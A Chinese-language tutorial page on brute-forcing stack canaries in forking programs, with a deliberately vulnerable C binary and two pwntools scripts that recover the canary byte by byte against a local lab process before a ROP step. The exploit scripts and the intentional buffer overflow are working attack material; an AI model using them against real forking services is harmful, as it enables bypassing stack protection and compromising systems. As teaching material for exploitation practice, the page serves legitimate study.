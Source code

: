 ```yaml
---
title: "Canary爆破"
description: ""
lead: ""
date: 2023-06-01T20:48:01+08:00
lastmod: 2023-06-01T20:48:01+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "canary_blast-f1811e695c8c16cce8cf8990a4357027"
weight: 5
toc: true
---
```


## 0x01 介绍

Canary能够爆破的情况非常少，必要条件有两点：

1. 多次触发stack smash
2. 触发了stack smash也不会退出整个程序的运行

能实现这样条件的大概只有循环+fork子进程，fork函数可以创建一个和原进程一样的进程，然后原进程和这个新建的进程会同时执行接下来的代码。fork函数返回值有三种类型，第一种为0，即当前进程是子进程，第二种是大于0，表示当前进程为父进程，第三种为小于0表示fork失败。举个例子来说

```cpp
#include<stdio.h>
#include<unistd.h>
int main() {
    pid_t pid = fork();    // 子进程和父进程将会同时执行以下代码
    if(pid == 0) {
        printf("this is a child process\n");
    } else if(pid > 0) {
        printf("this is a father process\n");
    } else {
        printf("fork error\n");
    }
    return 0;
}
// gcc fork_test.c -o fork_test
```

pid等于0的情况和大于0的情况都会被运行到，对于子进程来说fork的返回值是0，而对于父进程来说fork的返回值是大于0的，然后子进程和父进程会并行运行，两种情况都会被打印出来。

![8f91d6e3a7afcb790d88e94edf881ffb](images/8f91d6e3a7afcb790d88e94edf881ffb.png)  

子进程和父进程哪个先被执行是由操作系统调度决定的。了解了fork是如何运行的，接下来看一个典型的题目

```cpp
#include<stdio.h>
#include<unistd.h>
#include<sys/wait.h>

void run() {
        char buf[0x10];
        read(0, buf, 0x50);
}

int main() {
        pid_t pid;
        puts("Canary blast");
        while(1) {
                pid = fork();
                if(pid > 0) {
                        wait(0);    // 等待子进程资源回收，即不执行父进程
                } else if(pid == 0) {
                        run();
                        puts("done");
                } else {
                        break;
                }
        }
        return 0;
}
// gcc canary_blast.c -o canary_blast -no-pie -fstack-protector
```

这个函数是满足canary爆破的两个条件的，首先fork函数创建的子进程复制了父进程的canary，两者的canary是一样的，其次fork的子进程被stack smash，也不会破坏父进程的while循环fork新子进程。

然后我们就可以在子进程里逐个覆盖canary的字节来看它会不会stack smash，如果没有stack smash则表明这个字节猜对了，反之则继续猜，对于32位来说最多需要猜3\*0xff次，而64位最多需要猜7\*0xff次，每个字节的值在0~0xff之间。为什么不是满一个栈单元，因为末尾的 `\x00` 字节是确定的。

我们尝试爆破一个字节来试试。攻击代码为

```python
from pwn import*
context.log_level = 'debug'
o = process("./canary_blast")
canary = [0x00]
for i in range(0xff):
    payload = b'a'*24 + p8(canary[0]) + p8(i)
    o.sendline(payload)
    res = o.recv(timeout = 1)
    if "done" in res.decode():
        print("the 7th is %02x" % (i))
        canary.append(i)
        break
o.interactive()
```

![37dff5ad2451fa5f9be0c5a634aa95d0](images/37dff5ad2451fa5f9be0c5a634aa95d0.png)  

运行后可以看到canary的第7个字节为0x77，这时候我们可以gdb附加来看一下canary的值是否一样

![bc4cc90886e9720a6a4b5688c2e9cf79](images/bc4cc90886e9720a6a4b5688c2e9cf79.png)  

可以看到是一样的，接下来的操作为把爆破出来的字节添加到payload里，爆破下一个字节，直到所有字节都被爆破出来为止，攻击脚本也比较简单

```python
from pwn import*
context.log_level = 'debug'
o = process("./canary_blast")
canary = [0x00]
i = 0
while i < 7:
    for x in range(0xff):
        payload = b'a'*24
        for y in canary:
            payload += p8(y)
        payload += p8(x)
        o.send(payload)
        res = o.recv(timeout = 1)
        if "done" in res.decode():
            print("the 7th is %02x" % (x))
            canary.append(x)
            break
    i += 1
print("canary is ", end="")
for i in range(8):
    print("%02x" % (canary[7-i]), end="")
print()
o.interactive()
```

![12bc70b5d94551e5ee64036d339452a1](images/12bc70b5d94551e5ee64036d339452a1.png)  

![ac5fdf02c6995eb5f39c414db7139a02](images/ac5fdf02c6995eb5f39c414db7139a02.png)

接下来就是普通的ROP攻击了
